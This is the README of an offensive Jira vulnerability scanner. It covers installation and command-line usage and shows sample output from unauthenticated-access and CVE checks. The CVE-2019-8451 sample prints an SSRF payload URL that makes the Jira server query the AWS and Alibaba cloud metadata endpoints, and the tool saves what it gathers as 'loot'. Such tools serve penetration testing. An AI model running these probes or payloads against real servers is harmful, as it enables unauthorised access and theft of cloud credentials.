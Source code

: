 # J-PWN
Jira Vulnerability Scanner (Unauthenticated) 
```
             ██╗      ██████╗ ██╗    ██╗███╗   ██╗
             ██║      ██╔══██╗██║    ██║████╗  ██║
             ██║█████╗██████╔╝██║ █╗ ██║██╔██╗ ██║
        ██   ██║╚════╝██╔═══╝ ██║███╗██║██║╚██╗██║
        ╚█████╔╝      ██║     ╚███╔███╔╝██║ ╚████║
         ╚════╝       ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝
         ** Hack the Planet ** [carnal0wnage]
```


## Wiki
There is an extensive wiki at [https://github.com/carnal0wnage/J-PWN/wiki](https://github.com/carnal0wnage/J-PWN/wiki)

All modules are documented



## Quickstart 
### Install
```
python3  -m venv j-pwn
source j-pwn/bin/activate
pip3 install -r requirements
```
### Running J-PWN
`python3 j-pwn.py --single http://5.6.7.8:8080` (single host | all checks)

`python3 j-pwn.py --single https://1.2.3.4 -p /jira/` (single host | jira path added | all checks)

`python3 j-pwn.py --list ../jira-hosts.txt` (list of hosts | all checks)

`python3 j-pwn.py --single http://1.2.3.4:8080 --module check_open_jira_signup` (single host | single module)

`python3 j-pwn.py --list ../jira_hosts.txt --module check_open_jira_signup` (list of hosts | single module)

### Why
- More CVE checks
- HTTP 200 doesn't always mean vuln - validate returned content 
- HTTP 200 with empty results != vuln or interesting
- Handle ssl errors and scan the host
- Handle jira at different paths `/, /jira/, /whatever/`
- Brute force modules for projects and issues (and probably others - check wiki)
- For fun `¯\_(ツ)_/¯` 


### Example Data

Returns JIRA server version if JIRA is identified

```
+ JIRA is running on: https://jira1 

JIRA Server Information:
  Base URL        : https://jira1/jira
  Version         : 7.1.9
  Deployment Type : Server
  Build Number    : 71013
  Build Date      : 2016-06-27T00:00:00.000-0400
  Server Title    : JIRA

+ JIRA is running on: https://jira2

JIRA Server Information:
  Base URL        : https://jira2/jira
  Version         : 8.8.1
  Deployment Type : Server
  Build Number    : 808001
  Build Date      : 2020-04-22T00:00:00.000-0400
  Server Title    : Systems JIRA
```

### List the data if a JIRA server is vulnerable

ex: Unauthenticated Access to JIRA Admin Projects Detected
```
+ Unauthenticated Access to JIRA Admin Projects Detected
  URL: https://jira3/jira/rest/menu/latest/admin

  Admin Projects Details:
    - Key: admin
      Link: https://jira3/jira/secure/project/ViewProjects.jspa
      Label: JIRA administration
      Tooltip: 
      Local: True
      Self: True
      Application Type: jira
```
ex: Unauthenticated Access to JIRA Dashboards
```
+ Unauthenticated Access to JIRA Dashboards Detected
  URL: https://jira4/jira/rest/api/2/dashboard?maxResults=100
  Start At: 0
  Max Results: 100
  Total Dashboards: 1

  Dashboard Details:
    - ID: 10000
      Name: System Dashboard
      API URL: https://jira4/jira/rest/api/2/dashboard/10000
      View URL: https://jira4/jira/secure/Dashboard.jspa?selectPageId=10000
```
ex: Unauthenticated Access to JIRA Project Categories
```
+ Unauthenticated Access to JIRA Project Categories Detected
++ Manually check these for Unauthenticated Access ++
  URL: https://jira5/jira/rest/api/2/projectCategory?maxResults=1000

  Project Categories Details:
    - ID: 10003
      Name: Delivered
      Description: Project Delivered 
      API URL: https://jira5/jira/rest/api/2/projectCategory/10003
    - ID: 10400
      Name: Development
      Description: Development
      API URL: https://jira5/jira/rest/api/2/projectCategory/10400
    - ID: 10201
      Name: Internal
      Description: 
      API URL: https://jira5/jira/rest/api/2/projectCategory/10201
```

ex: CVE-2019-8442
```
- Checking URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
- HTTP Status Code: 200
+ CVE-2019-8442 Detected: Information Disclosure vulnerability found!
  URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

- Checking URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
- HTTP Status Code: 200
+ CVE-2019-8442 Detected: Information Disclosure vulnerability found!
  URL: https://jira3/jira/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
```

ex: CVE-2019-8451
```
INFO: Checking for CVE-2019-8451 (SSRF)
[Testing URL]: http://JIRASERVER:8080/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@example.com
[!!] [SSRF] Vulnerable to CVE-2019-8451 (SSRF): http://JIRASERVER/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@example.com
	Checking AWS Metadata
	----> AWS Metadata Not Found HTTP:500 
	----> HTTP Code: 200
throw 1; < don't be evil' >{"http://JIRASERVER:8080@169.254.169.254/latest/meta-data/":{"rc":500,"headers":{},"body":""}}
	Checking Alibaba Metadata
	----> Alibaba Metadata FOUND: http://JIRASERVER:8080/plugins/servlet/gadgets/makeRequest?url=http://JIRASERVER:8080@100.100.100.200/latest/meta-data/
<SNIP>

Exfiltrated data written to: loot/CVE-2019-8451_JIRASERVER:8080.txt
```
